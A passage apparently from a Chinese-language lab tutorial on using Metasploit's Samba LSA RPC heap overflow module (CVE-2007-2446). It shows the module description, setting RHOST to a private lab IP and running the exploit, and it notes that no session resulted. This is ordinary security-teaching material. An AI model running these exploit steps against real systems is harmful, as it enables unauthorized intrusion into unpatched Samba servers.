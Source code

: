 ```bash

Payload information:
  Space: 1024

Description:
  This module triggers a heap overflow in the LSA RPC service of the
  Samba daemon. This module uses the TALLOC chunk overwrite method
  (credit Ramon and Adriano), which only works with Samba versions
  3.0.21-3.0.24. Additionally, this module will not work when the
  Samba "log level" parameter is higher than "2".

References:
  https://cvedetails.com/cve/CVE-2007-2446/
  OSVDB (34699)

# 查看所需参数
msf exploit(solaris/samba/lsa_transnames_heap) > show missing
# 输出
Module options (exploit/solaris/samba/lsa_transnames_heap):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address

# 发现只需要设置目标IP地址即可
msf exploit(solaris/samba/lsa_transnames_heap) > set RHOST 192.168.56.7
# 输出
RHOST => 192.168.56.7

# 攻击，执行exploit即可
msf exploit(solaris/samba/lsa_transnames_heap) > exploit
# 输出略
```
攻击成功，但是没有产生会话。

![](exploit1.png)

